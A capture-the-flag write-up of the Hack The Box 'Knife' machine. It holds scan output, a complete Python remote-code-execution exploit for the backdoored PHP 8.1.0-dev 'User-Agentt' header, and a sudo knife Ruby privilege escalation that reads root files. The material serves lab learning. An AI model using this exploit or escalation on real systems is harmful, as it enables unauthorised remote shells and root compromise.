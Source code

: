 ![image](https://user-images.githubusercontent.com/105310322/187503628-bc497651-e7cf-4967-bb53-a7f33613718d.png)

### Tools: Nmap, 

Running nmap we can see that port 80 and 22 are open. Lets run a dirb and check out the webpage while it runs.

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -A -Pn 10.129.82.115
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-08 20:55 BST
Nmap scan report for 10.129.82.115
Host is up (0.0043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.97 seconds
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ dirb http://10.129.82.115

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  8 20:57:51 2022
URL_BASE: http://10.129.82.115/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.82.115/ ----
+ http://10.129.82.115/index.php (CODE:200|SIZE:5815)                          
+ http://10.129.82.115/server-status (CODE:403|SIZE:278)                       
                                                                               
-----------------
END_TIME: Mon Aug  8 20:58:08 2022
DOWNLOADED: 4612 - FOUND: 2
```
Navigating to the webpage we can see that there is nothing interesting but running a curl command shows that its "X-Powered-By" php 8.1.0.

```console
└──╼ [★]$ curl -I 10.129.82.115
HTTP/1.1 200 OK
Date: Mon, 08 Aug 2022 20:17:49 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
A quick google search gives us an axploit we can run to get a shell on the host.

```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Now running the script gives us a shell!

```console
└──╼ [★]$ python3 php.py 
Enter the full host url:
http://10.129.82.115

Interactive shell is opened on http://10.129.82.115 
Can't acces tty; job crontol turned off.
$ pwd
/

$ whoami
james
```

I had trouble navigating with the limited shell but was able to locate the user flag.

```console
$ pwd
/

$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ ls home
james

$ ls home/james
user.txt

$ cat home/james/user.txt
a907****************************
```

Now to priviledge escalate and grab the root flag. Its always smart to run sudo -l to see what the logged in user can use

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Knife is the vulnerable sudo permission that we can exploit. Coincidence!? I think not!
unfortunately with this being an unstable shell I was unable to get root priviledges with this exploit from GTFO bins so we shall use another...

```console
$ sudo knife exec -E 'exec "/bin/sh"'
No input file specified.
```
Since knife can execute ruby scripts, we will make a quick script to read the root flag with sudo permissions.

```console
$ echo "data = File.read(\"/root/root.txt\")\r\nputs data" > ~/flag.rb

$ sudo knife exec ~/flag.rb
42ab****************************
```

Voila we have both flags!!

Pretty simple box. I had a little trouble after the GTFO bins didn't work on the knife command, but a little digging showed that it can run ruby scripts so then my next challenge became creating a ruby script to read the flag.
